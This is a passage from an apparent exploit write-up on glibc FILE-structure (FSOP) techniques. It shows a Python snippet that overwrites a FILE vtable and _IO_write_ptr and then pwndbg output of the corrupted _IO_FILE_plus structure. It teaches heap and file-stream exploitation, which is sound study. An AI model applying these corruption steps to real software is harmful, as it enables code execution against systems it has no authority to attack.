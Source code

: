 
Let's modify our python exploit to accomplish this. In this case, since both values were 0x0 we can change *_IO_write_ptr* to 1. Also, we need *_IO_sync* to be called, so we need to "restore" the vtable to point again so *__sync* is setup correctly.

```python

trick(_vtable, 0xa0)
trick(_IO_write_ptr, 1)
flush()

``` 
After we execute the code above, we will populate the FileStream with more heap addresses, as shown below

```cmd
pwndbg> p *((struct _IO_FILE_plus *)0x55555555a2a0)
$1 = {
  file = {
    _flags = -72538968,
    _IO_read_ptr = 0x55555555a480 "",
    _IO_read_end = 0x55555555a480 "",
    _IO_read_base = 0x55555555a480 "",
    _IO_write_base = 0x55555555a480 "",
    _IO_write_ptr = 0x55555555a480 "",
    _IO_write_end = 0x55555555c480 "",
    _IO_buf_base = 0x55555555a480 "",
    _IO_buf_end = 0x55555555c480 "",
    _IO_save_base = 0x0,
    _IO_backup_base = 0x0,
    _IO_save_end = 0x0,
    _markers = 0x0,
    _chain = 0x7ffff7fef5c0 <_IO_2_1_stderr_>,
    _fileno = 3,
    _flags2 = 0,
    _old_offset = 0,
    _cur_column = 0,
    _vtable_offset = 0 '\000',
    _shortbuf = "",
    _lock = 0x55555555a380,
    _offset = -1,
    _codecvt = 0x0,
    _wide_data = 0x0,
    _freeres_list = 0x0,
    _freeres_buf = 0x0,
    __pad5 = 0,
    _mode = 0,
    _unused2 = '\000' <repeats 19 times>
  },
  vtable = 0x7ffff7feb4a0 <_IO_file_jumps>
}
pwndbg>
```
